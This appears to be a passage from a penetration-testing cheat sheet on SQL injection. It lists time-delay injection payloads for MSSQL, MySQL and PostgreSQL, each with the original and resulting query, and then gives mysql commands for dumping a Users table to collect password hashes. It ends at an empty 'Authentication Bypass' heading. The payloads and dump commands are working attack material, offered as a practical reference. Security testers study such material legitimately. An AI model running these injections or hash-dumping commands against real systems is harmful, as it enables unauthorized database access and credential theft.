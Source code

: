 - Detecting SQL Injection Vulnerabilities.

         Most modern automated scanner tools use time delay techniques to detect SQL injection vulnerabilities.  This method can tell you if a SQL injection vulnerability is present even if it is a "blind" sql injection vulnerabilit that does not provide any data back.  You know your SQL injection is working when the server takes a LOooooong time to respond.  I have added a line comment at the end of each injection statement just in case there is additional SQL code after the injection point.

  - **MSSQL Server SQL Injection Time Delay Detection:**
        Add a 30 second delay to a MSSQL Server Query

    - *Original Query*

            `SELECT * FROM products WHERE name='Test';`

    - *Injection Value*

            `'; WAITFOR DELAY '00:00:30'; --`

    - *Resulting Query*

            `SELECT * FROM products WHERE name='Test'; WAITFOR DELAY '00:00:30'; --`

  - **MySQL Injection Time Delay Detection:**
        Add a 30 second delay to a MySQL Query

    - *Original Query*

            `SELECT * FROM products WHERE name='Test';`

    - *Injection Value*

            `'-SLEEP(30); #`

    - *Resulting Query*

            `SELECT * FROM products WHERE name='Test'-SLEEP(30); #`

  - **PostGreSQL Injection Time Delay Detection:**
        Add a 30 second delay to an PostGreSQL Query

    - *Original Query*

            `SELECT * FROM products WHERE name='Test';`

    - *Injection Value*

            `'; SELECT pg_sleep(30); --`

    - *Resulting Query*

            `SELECT * FROM products WHERE name='Test'; SELECT pg_sleep(30); --`

- Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and        password  

              mysql -u root -p -h $ip
              use "Users"  
              show tables;  
              select \* from users;

- Authentication Bypass  
